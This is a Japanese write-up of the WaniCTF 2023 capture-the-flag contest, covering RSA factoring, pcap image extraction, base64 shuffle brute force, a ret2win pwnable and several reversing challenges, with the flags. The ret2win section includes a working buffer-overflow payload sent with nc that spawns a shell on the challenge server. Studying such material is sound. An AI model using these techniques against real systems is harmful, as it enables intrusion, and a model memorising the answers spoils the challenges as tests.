

# WaniCTF 2023 - Writeup

2023/05/04(Thu) 15:00 ~ 2023/05/06(Sat) 15:00 (JST) に開催された。

問題はほぼ全て Ubuntu 22.04 上で解き、一部は Kali Linux を使用した。

以下は、問題と公式の Writeup が配布されているリポジトリ。

<https://github.com/wani-hackase/wanictf2023-writeup>

## 目次

- [WaniCTF 2023 - Writeup](#wanictf-2023---writeup)
  - [目次](#目次)
  - [Crypto](#crypto)
    - [EZDORSA\_Lv3 (Normal, 233solved) Writer : Gureisya](#ezdorsa_lv3-normal-233solved-writer--gureisya)
      - [EZDORSA\_Lv3 詳細](#ezdorsa_lv3-詳細)
  - [Forensics](#forensics)
    - [beg\_for\_a\_peg (Normal, 193solved) Writer : Mikka](#beg_for_a_peg-normal-193solved-writer--mikka)
      - [beg\_for\_a\_peg 詳細](#beg_for_a_peg-詳細)
  - [Misc](#misc)
    - [shuffle\_base64 (Easy, 194solved) Writer : Gureisya](#shuffle_base64-easy-194solved-writer--gureisya)
      - [shuffle\_base64 詳細](#shuffle_base64-詳細)
  - [Pwnable](#pwnable)
    - [03. ret2win (Easy, 209solved) Writer : Caffeine](#03-ret2win-easy-209solved-writer--caffeine)
      - [03. ret2win 詳細](#03-ret2win-詳細)
  - [Reversing](#reversing)
    - [Just\_Passw0rd (Beginner, 544solved) Writer : Mikka](#just_passw0rd-beginner-544solved-writer--mikka)
    - [javersing (Easy, 348solved) Writer : Mikka](#javersing-easy-348solved-writer--mikka)
      - [javersing 詳細](#javersing-詳細)
    - [fermat (Easy, 263solved) Writer : Laika](#fermat-easy-263solved-writer--laika)
      - [fetmat 詳細](#fetmat-詳細)
    - [theseus (Normal, 136solved) Writer : Mikka](#theseus-normal-136solved-writer--mikka)
      - [theseus 詳細](#theseus-詳細)
    - [Lua (Easy, 69solved) Writer : hi120ki](#lua-easy-69solved-writer--hi120ki)
      - [Lua 詳細](#lua-詳細)

## Crypto

### EZDORSA_Lv3 (Normal, 233solved) Writer : Gureisya

`n` の因数をすべて列挙し、multiple RSA のソルバを使用する。

```sh
$ cat facts.txt | python3 multi_prime_rsa.py
FLAG{fact0r1z4t10n_c4n_b3_d0n3_3as1ly}
```

#### EZDORSA_Lv3 詳細

`n` には、25 ビットの重複しない素数が 100 個使用されていることがわかる。

```py
# chall.py
...
n = 1
prime_list = []
while len(prime_list) < 100:
    p = getPrime(25)
    if not (p in prime_list):
        prime_list.append(p)

for i in prime_list:
    n *= i
...
```

25 ビットがどの程度の数なのかを調べる。

```sh
$ python3 -c 'print(1 << 24)'
16777216

$ python3 -c 'print((1 << 25) - 1)'
33554431
```

この程度の素数なら、すでに全列挙されているだろうと考え、グーグルで調べる。

<https://math.stackexchange.com/questions/3323953/where-can-i-download-a-full-list-of-all-primes-below-1015>

上記回答によると、R を使えば、10 億程度なら簡単に素数を列挙できるらしい。R はすでにインストールされていたから、この手法を使った。

```R
install.packages("data.table")
install.packages("numbers")
install.packages("primes")
library(data.table)
library(numbers)
library(primes)

primes = as.data.frame(generate_primes(min = 16777215, max = 33554432))
fwrite(primes,"./prime_list.csv", row.names = F, col.names = F)
```

```sh
$ wc -l prime_list.csv
985818 prime_list.csv
```

100 万回程度の計算は、すぐに終わる。

```py
# divisor.py
size = 985818

primes = [int(input().strip()) for _ in range(size)]

n = 22853745492099501680331664851090320356693194409008912025285744113835548896248217185831291330674631560895489397035632880512495471869393924928607517703027867997952256338572057344701745432226462452353867866296639971341288543996228186264749237402695216818617849365772782382922244491233481888238637900175603398017437566222189935795252157020184127789181937056800379848056404436489263973129205961926308919968863129747209990332443435222720181603813970833927388815341855668346125633604430285047377051152115484994149044131179539756676817864797135547696579371951953180363238381472700874666975466580602256195404619923451450273257882787750175913048168063212919624027302498230648845775927955852432398205465850252125246910345918941770675939776107116419037

for i in primes:
    if n % i == 0:
        print(i)
```

```sh
$ cat prime_list.csv | python3 divisor.py > facts.txt

$ wc -l facts.txt
100 facts.txt
```

あとは、以下から拾ってきたスクリプトを改変して動かすだけ。

<https://gist.github.com/jackz314/09cf253d3451f169c2dbb6bbfed73782>

```py
# multi_prime_rsa.py 
...
06: e = 65537
07: c = 1357660325421905236173040941411359338802736250800006453031581109522066541737601274287649030380468751950238635436299480021037135774086215029644430055129816920963535754048879496768378328297643616038615858752932646595502076461279037451286883763676521826626519164192498162380913887982222099942381717597401448235443261041226997589294010823575492744373719750855298498634721551685392041038543683791451582869246173665336693939707987213605159100603271763053357945861234455083292258819529224561475560233877987367901524658639475366193596173475396592940122909195266605662802525380504108772561699333131036953048249731269239187358174358868432968163122096583278089556057323541680931742580937874598712243278738519121974022211539212142588629508573342020495
08: n = 22853745492099501680331664851090320356693194409008912025285744113835548896248217185831291330674631560895489397035632880512495471869393924928607517703027867997952256338572057344701745432226462452353867866296639971341288543996228186264749237402695216818617849365772782382922244491233481888238637900175603398017437566222189935795252157020184127789181937056800379848056404436489263973129205961926308919968863129747209990332443435222720181603813970833927388815341855668346125633604430285047377051152115484994149044131179539756676817864797135547696579371951953180363238381472700874666975466580602256195404619923451450273257882787750175913048168063212919624027302498230648845775927955852432398205465850252125246910345918941770675939776107116419037
09: # primes are factored from n
10: primes = [int(input().strip()) for _ in range(100)]
...
49: from Crypto.Util.number import long_to_bytes
50: print(long_to_bytes(x%n).decode())
```

```sh
$ cat facts.txt | python3 multi_prime_rsa.py
FLAG{fact0r1z4t10n_c4n_b3_d0n3_3as1ly}
```

## Forensics

### beg_for_a_peg (Normal, 193solved) Writer : Mikka

wireshark を使って、`log.pcapng` ファイルから、`flag.jpg` のレスポンスデータを抽出し、画像を確認する。

```sh
$ open flag.jpg
```



```text
FLAG{Hug_a_pug_less_than_three}
```

#### beg_for_a_peg 詳細

wireshark を起動する。

```sh
$ wireshark log.pcapng
```

`flag.jpg` のレスポンスを確認する。No. 31 から始まる。No. 31 の行を右クリックして、Follow -> TCP Stream をクリックする。

```http
HTTP/1.0 200 OK
Content-Length: 18214
Content-Type: image/jpeg
```

青色の文字がレスポンスだから、上記のレスポンスラインとレスポンスヘッダ以外をコピペする。

Show data as を Raw にして、`ffd8ffe ...` から最後までコピーする。

```sh
# ペーストし、Ctrl + D で終了
$ cat > flag.jpg.hex
ffd8ffe100 ...
```

```py
# solve.py
hex = input().strip()
for i in range(len(hex)):
    if i % 2 == 0:
        print("\\x", end='')
    print(hex[i], end='')
```

```sh
$ printf "$(cat flag.jpg.hex | tr -d '\n' | python3 solve.py)" > flag.jpg

$ open flag.jpg
```


```text
FLAG{Hug_a_pug_less_than_three}
```

## Misc

### shuffle_base64 (Easy, 194solved) Writer : Gureisya

ソースコードを改変して動作を把握し、ソルバを書く。

```sh
$ python3 solve.py
FLAG{shuffle64}
```

#### shuffle_base64 詳細

とりあえず `chall.py` を実行する。

```sh
$ for i in {1..10}; do python3 chall.py; done
cipher = b'TVldVU05S0UxX0Y/e0RVTEFLR307RkFU'
cipher = b'TVlLR31Me0QtS0VhVU1xTEFcRkFEX0Z7'
cipher = b'S0VIR31yRkFLe0RiTVlRVU0kX0ZmTEF3'
cipher = b'e0R3TEF2X0ZOTVlpVU1pRkE/S0UhR31n'
cipher = b'S0VQRkE8TVleVU1LTEFwe0QmR31PX0Y/'
cipher = b'RkF6VU0zR31LTEFATVllS0Vce0R8X0ZN'
cipher = b'TVlTX0Z0e0QxVU06R30yS0VVTEEwRkFJ'
cipher = b'TEFbR31bRkFDS0VQX0ZzVU1We0RHTVkx'
cipher = b'TEFAR30nX0Y6RkFMe0RRVU1MS0V8TVk+'
cipher = b'X0ZYR31MRkFeS0Voe0R2VU06TVlYTEFf'
```

ランダム性があることがわかる。`flag` の値をわかりやすいものにして、base64 も無効化して再実行する。

```py
# chall.py
...
38: flag = "123456789"
...
49: # cipher = base64.b64encode(cipher.encode())
...
```

```sh
$ for i in {1..10}; do python3 chall.py; done
cipher = 9'n78i12a56r34b
cipher = 56r34V12Q7849Mh
cipher = 56F9!=34&78I12$
cipher = 56Q78a12A3439e}
cipher = 56O9U078K12O34U
cipher = 78'97l12934R56n
cipher = 12v34S56Y9f\78<
cipher = 78z9:W12j56(34h
cipher = 78^34!5669Rz12V
cipher = 12L34>78a9=o56C
```

なんとなく規則性が見えてきた。それぞれの変数を printf デバッグしてみる。

```py
# chall.py
...
42: padflag = pad(flag)
43: print(padflag)
...
45: str_blocks = make_str_blocks(padflag)
46: print(str_blocks)
...
```

```sh
% for i in {1..10}; do python3 chall.py; done
12734&56r78E9#w
['127', '34&', '56r', '78E', '9#w']
cipher = 78E9#w12734&56r
12434Q56u7809xA
['124', '34Q', '56u', '780', '9xA']
cipher = 7809xA34Q56u124
12\34T56,78r9D7
['12\\', '34T', '56,', '78r', '9D7']
cipher = 56,9D712\78r34T
12%34,56H78X9HF
['12%', '34,', '56H', '78X', '9HF']
cipher = 34,9HF56H12%78X
12t34{56R78a9^"
['12t', '34{', '56R', '78a', '9^"']
cipher = 9^"12t78a34{56R
12)34!56O78i9H;
['12)', '34!', '56O', '78i', '9H;']
cipher = 56O78i12)9H;34!
12S34|56T78P92P
['12S', '34|', '56T', '78P', '92P']
cipher = 78P56T92P12S34|
12b34S56`78Y9<T
['12b', '34S', '56`', '78Y', '9<T']
cipher = 34S9<T56`12b78Y
12Z34+56C78)9/h
['12Z', '34+', '56C', '78)', '9/h']
cipher = 78)12Z34+56C9/h
12[34456l78I9"s
['12[', '344', '56l', '78I', '9"s']
cipher = 12[3449"s78I56l
```

`pad()` は、`flag` に格納された文字列を 2 文字ずつに分割し、余分な 1 文字をつける。もし、最後の文字が 1 文字となったら、2 文字を余分につける。

`make_str_blocks()` は、`pad()` で生成された文字列を 3 文字ずつのチャンクとしてリスト化する。

`out.txt` ファイルの `cipher = b'fWQobGVxRkxUZmZ8NjQsaHUhe3NAQUch'` は、`make_str_blocks()` で生成されたリストを適当に並べ替えて結合し、base64 エンコードを行った結果だと判明した。

FLAG を復元するにあたって、問題となるのは、並べ替えにかかる時間だから、計算量を見積もる。

```sh
$ base64 -d <<< fWQobGVxRkxUZmZ8NjQsaHUhe3NAQUch | python -c 'import math; print(math.factorial(len(input().strip()) // 3))'
40320
```

大体 10 億くらいまでは 1 秒で計算できるという話だから、高々 4 万回程度なら余裕で全探索できる。あとはスクリプトを書くだけ。

問題文とソースコード上で、FLAG の SHA256 ハッシュが提供されているから、それを利用する。

```py
# chall.py
39: # FLAG check
40: # assert (hashlib.sha256(flag.encode()).hexdigest() == "19b0e576b3457edfd86be9087b5880b6d6fac8c40ebd3d1f57ca86130b230222")
```

```py
# solve.py
import itertools
import hashlib
import base64

FLAG_SHA256 = '19b0e576b3457edfd86be9087b5880b6d6fac8c40ebd3d1f57ca86130b230222'

cipher = b'fWQobGVxRkxUZmZ8NjQsaHUhe3NAQUch'

encrypted = base64.b64decode(cipher).decode('ascii')

chunks = []

for i in range(0, len(encrypted), 3):
    chunks.append(encrypted[i:i + 2])
    if chunks[-1][0] == '}':
        chunks[-1] = '}'

perms = list(itertools.permutations(chunks, len(chunks)))
for i in perms:
    ans = ''.join(i).encode()
    if hashlib.sha256(ans).hexdigest() == FLAG_SHA256:
        print(ans.decode('ascii'))
        exit(0)
```

```sh
$ python3 solve.py
FLAG{shuffle64}
```

## Pwnable

### 03. ret2win (Easy, 209solved) Writer : Caffeine

ターゲットの位置のスタックに `win` 関数のメモリアドレスを積む。

```sh
$ perl -e 'print "A"x40 ."\x69\x13\x40" ."\x00"x5 ."cat FLAG\n"' | nc ret2win-pwn.wanictf.org 9003
Let's overwrite the target address with that of the win function!

  #############################################
  #                stack state                #
  #############################################

                 hex           string
       +--------------------+----------+
 +0x00 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x08 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x10 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x18 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x20 | 0x0000000000000001 | ........ |
       +--------------------+----------+
 +0x28 | 0x00007f661e2fed90 | ...f./.. | <- TARGET!!!
       +--------------------+----------+
your input (max. 48 bytes) > FLAG{f1r57_5739_45_4_9wn3r}
```

#### 03. ret2win 詳細

まず実行してみる。

```sh
$ nc ret2win-pwn.wanictf.org 9003
Let's overwrite the target address with that of the win function!

  #############################################
  #                stack state                #
  #############################################

                 hex           string
       +--------------------+----------+
 +0x00 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x08 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x10 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x18 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x20 | 0x0000000000000001 | ........ |
       +--------------------+----------+
 +0x28 | 0x00007f30c14d3d90 | ...0.M=. | <- TARGET!!!
       +--------------------+----------+
your input (max. 48 bytes) > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

おそらく、`TARGET!!!` の位置には、何らかの関数からのリターンアドレスが格納される部分なのだろう。この位置の内容を適切な関数のアドレスに変えれば良さそうだ。

ソースコードを読む。

```c
...
05: #define BUF_SIZE 32
06: #define MAX_READ_LEN 48
...
38: void win() {
...
43:       "mov $0x68732f6e69622f, %rdi\n"
...
46:       "syscall");
47: }
...
51: int main() {
...
54:   char buf[BUF_SIZE] = {0};
...
58:   while (ofs < MAX_READ_LEN) {
...
62:     ret = read(0, buf + ofs, MAX_READ_LEN - ofs);
63:     if (ret < 0)
64:       return 1;
65:     ofs += ret;
...
```

`BUF_SIZE` が 32 に対して、`MAX_READ_LEN` が 48 になっている。スタックに格納されている `buf` のサイズが 32 バイトで、`read` 関数で標準入力から読み込むバイト数が 48 になっているから、スタックベースのバッファオーバーフローが存在する。

```sh
$ echo $(python3 -c 'print("".join([c if i % 2 else "\\x" + c for i, c in enumerate("68732f6e69622f")]))')
hs/nib/
```

`win` 関数は、シェルコードの呼び出しに見える。したがって、`TARGET!!!` の位置のアドレスを `win` 関数のアドレスに変更すれば FLAG が入手できそうだ。

たぶんコードセグメントのメモリの配置がランダム化されるやつは有効じゃないとみて `win` 関数のアドレスを確認する。

```sh
$ objdump -d chall | grep win
0000000000401369 <win>:
```

x86 系は、リトルエンディアンであることに注意して、ペイロードを送り込む。

```sh
$ (perl -e 'print "A"x40 ."\x69\x13\x40" ."\x00"x5'; cat) | nc ret2win-pwn.wanictf.org 9003
Let's overwrite the target address with that of the win function!

  #############################################
  #                stack state                #
  #############################################

                 hex           string
       +--------------------+----------+
 +0x00 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x08 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x10 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x18 | 0x0000000000000000 | ........ |
       +--------------------+----------+
 +0x20 | 0x0000000000000001 | ........ |
       +--------------------+----------+
 +0x28 | 0x00007f8ac52ded90 | .....-.. | <- TARGET!!!
       +--------------------+----------+
your input (max. 48 bytes) > ls
FLAG
chall
redir.sh
cat FLAG
FLAG{f1r57_5739_45_4_9wn3r}
```

## Reversing

### Just_Passw0rd (Beginner, 544solved) Writer : Mikka

`strings` コマンドで FLAG 文字列を抽出する。

```sh
$ strings just_password | grep FLAG
FLAG is FLAG{1234_P@ssw0rd_admin_toor_qwerty}
```

### javersing (Easy, 348solved) Writer : Mikka

jar ファイルをアンパックして、出てきた java デコンパイルして、出てきたコードを読んで FLAG を復元する。

```sh
$ python3 solve.py | grep FLAG
FLAG{Decompiling_java_is_easy}

$ java -jar ../javersing.jar
Input password:
FLAG{Decompiling_java_is_easy}
Correct!
```

#### javersing 詳細

jar ファイルをアンパックする。

```sh
$ unzip -d javersing{,.jar}
Archive:  javersing.jar
   creating: javersing/META-INF/
  inflating: javersing/META-INF/MANIFEST.MF
  inflating: javersing/javersing.class
```

Java Decompiler というものがあるので、それをダウンロードする。`jd-gui-1.6.6.jar` を使った。

<https://java-decompiler.github.io/>

```sh
$ java -jar jd-gui-1.6.6.jar
```

File -> Open File... から `javersing.class` を選ぶと、デコンパイルされた結果が表示される。以下にデコンパイル済みコードを示す。

```java
// javersing.class
import java.util.Scanner;

public class javersing {
  public static void main(String[] paramArrayOfString) {
    String str1 = "Fcn_yDlvaGpj_Logi}eias{iaeAm_s";
    boolean bool = true;
    Scanner scanner = new Scanner(System.in);
    System.out.println("Input password: ");
    String str2 = scanner.nextLine();
    str2 = String.format("%30s", new Object[] { str2 }).replace(" ", "0");
    for (byte b = 0; b < 30; b++) {
      if (str2.charAt(b * 7 % 30) != str1.charAt(b))
        bool = false; 
    } 
    if (bool) {
      System.out.println("Correct!");
    } else {
      System.out.println("Incorrect...");
    } 
  }
}
```

よくわからないけれど、FLAG の長さが 30 文字で 30 の mod をとっているから、7 に当たる部分を文字数分全探索すれば良さそうだと考えた。

なんとなく書く。

```py
encrypted = 'Fcn_yDlvaGpj_Logi}eias{iaeAm_s'

for j in range(len(encrypted)):
    for i in range(len(encrypted)):
        print(encrypted[i * j % 30], end='')
    print()
```

なんとなく解ける。

```sh
$ python3 solve.py | grep FLAG
FLAG{Decompiling_java_is_easy}

$ java -jar ../javersing.jar
Input password:
FLAG{Decompiling_java_is_easy}
Correct!
```

### fermat (Easy, 263solved) Writer : Laika

オーバーフローで `a^3 + b^3 = c^3` を成立させる。

```sh
$ ./fermat
Input a> 2147483648
Input b> 2147483647
Input c> 2147483647
(a, b, c) = (2147483648, 2147483647, 2147483647)
wow :o
FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}
```

#### fetmat 詳細

Ghidra でデコンパイルを実行してコードを読む。詳細は割愛。

a, b, c はそれぞれ 4 以上の整数かつ、`a^3 + b^3 = c^3` が成立すれば、FLAG を表示する仕組みになっていることがわかる。フェルマーの最終定理？が証明されているから、この式は成立しないはず（要検証）。

しかし、この問題において、それぞれの数は、32bit 整数で計算される。したがって、オーバーフローを起こせば、ここでは成立するはず。

以下のプログラムを作り、コーナーケースっぽい値を入力して色々試すことで、`a = 2147483648`, `b = 2147483647`, `c = 2147483647` の時、成立することがわかった。

```cpp
// fermat.cpp
#include <iostream>
using namespace std::literals;

int main() {
    uint32_t a, b, c;
    std::cin >> a >> b >> c;
    std::cout << a * a * a + b * b * b << " "s << c * c * c << std::endl;
}
```

```sh
$ g++ fermat.cpp && ./a.out
2147483648 2147483647 2147483647
2147483647 2147483647
```

```sh
$ ./fermat
Input a> 2147483648
Input b> 2147483647
Input c> 2147483647
(a, b, c) = (2147483648, 2147483647, 2147483647)
wow :o
FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}
```

### theseus (Normal, 136solved) Writer : Mikka

復号後の FLAG が格納されているスタックのアドレスをデバッガを噛まして見る。

```sh
$ gdb -q chall
...
0016| 0x7fffffffdbb0 ("FLAG{vKCsq3jl4j_Y0uMade1t}")
...

$ ./chall 
Input flag: FLAG{vKCsq3jl4j_Y0uMade1t}
Correct!
```

#### theseus 詳細

[gdb-peda](https://github.com/longld/peda) を使用した。

`compare` 関数あたりで FLAG を生成していると予想したので、ブレークポイントを生成してスタックを眺めた。

```sh
$ gdb -q chall
...

gdb-peda$ r
...

Input flag: a
Incorrect.
...

Warning: not running
gdb-peda$ pdisas main
Dump of assembler code for function main:
...
   0x0000555555555441 <+464>:   call   0x5555555551e9 <compare>
...
gdb-peda$ b *0x0000555555555441
Breakpoint 1 at 0x555555555441
gdb-peda$ r
...
Breakpoint 1, 0x0000555555555441 in main ()
gdb-peda$ s

# Return を何回か押す
...
0016| 0x7fffffffdbb0 ("FLAG{vKCsq3jl4j_Y0uMade1t}")
0024| 0x7fffffffdbb8 ("sq3jl4j_Y0uMade1t}")
0032| 0x7fffffffdbc0 ("Y0uMade1t}")
...
```

```sh
$ ./chall 
Input flag: FLAG{vKCsq3jl4j_Y0uMade1t}
Correct!
```

### Lua (Easy, 69solved) Writer : hi120ki

復号後の FLAG が格納されている変数の値をデバッガを噛まして見る。

```sh
$ lua5.1 main.lua
Input FLAG : ^C
====== STOP BY ASSERT ======
stop at @main.lua:811
LUPE>v
...
   is_K(boolean): true
   const(string): FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}
  }
...

$ lua5.1 main.lua 
Input FLAG : FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}
Correct
```

#### Lua 詳細

Ubuntu 22.04 における lua のインストールと問題プログラムの起動：

```sh
$ sudo apt install lua5.1

$ lua5.1 main.lua 
Input FLAG : FLAG
Incorrect
```

問題プログラムは、正しい FLAG が入力されているかを判定するプログラムになっている。

lua に関しては、[Elona](http://ylvania.style.coocan.jp/) で使われている言語だということしか知らない。問題プログラムは、1277 行もあるし、`print` や `out`, `write` といったわかりやすい名前の関数もない。それどころか、`Input FLAG` という文字列すら検索しても出てこない。何もわからない。

わかったのは、プロンプトが出た時、Ctrl + C を押した後、Return キーを押すと、だいたいプロンプトの処理が実行されている行数がわかるということくらいだ。

```sh
$ lua5.1 main.lua
Input FLAG : ^C
lua5.1: gg_y:2: [main.lua:906] interrupted!
stack traceback:
        [C]: in function 'error'
        main.lua:809: in function 'bl'
        main.lua:1245: in function <main.lua:1223>
        (tail call): ?
        (tail call): ?
        [C]: ?
```

あとは、`assert()` という関数が存在するということくらいだ。4 行目の変数の `ABCDE` の順序を変えると、`assert()` が実行される。デバッグ用の関数が残っているようだ。ここで `assert()` を使えばプログラムの実行を停止させられることがわかった。

```lua
-- main.lua
-- 変更前
4:   local b = "ABCDEF ..."
-- 変更後
4:   local b = "ABCEDF ..."
```

```sh
$ lua5.1 main.lua
lua5.1: main.lua:758: invalid Lua version
stack traceback:
        [C]: in function 'assert'
        main.lua:758: in function 'a3'
        main.lua:1252: in function 'CRYPTEDlIIlIlII'
        main.lua:1276: in function <main.lua:1>
        (tail call): ?
        [C]: ?
```

```lua
-- main.lua
-- よくわからないがここに引っかかっている？
758:        assert(ay(bc) == 0x51, "invalid Lua version")
```

入力された FLAG を比較する前に、正しい FLAG が生成されているとしたら、それが格納されている変数を見ればいいだけだ。「lua デバッガ」で検索すると、素晴らしい LUPE というデバッガが世の中には存在していることがわかる。`@tenntenn(Mercari)` さん LUPE の開発と公開をありがとうございます。

<https://qiita.com/tenntenn/items/1d9b30b86df0a8ca4102>

<https://github.com/tenntenn/lupe>

```sh
$ git clone https://github.com/tenntenn/lupe

$ cd lupe

# なんかエラーが出るが気にしない
$ ./concat

# 問題プログラムである main.lua が存在するディレクトリにコピー
$ cp lupe.lua ../
```

`main.lua` を編集する。LUPE の github ページで紹介されているデバッガの起動方法はなぜか機能しなかったから、適当に試して動いた方法を以下に示す。

```lua
-- 1 行目に挿入
001: require('lupe')
002:
003: return (function()
...
-- 元の 809 行目に挿入
811:       assert()
```

プロンプトが出たあと、Ctrl + C で SIGINT を発生させると、`assert()` が機能して、LUPE が起動する。

LUPE の `v` コマンドで FLAG が格納されている変数の値を見る。

```sh
$ lua5.1 main.lua
Input FLAG : ^C
====== STOP BY ASSERT ======
stop at @main.lua:811
LUPE>v
...
   is_K(boolean): true
   const(string): FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}
  }
...
```
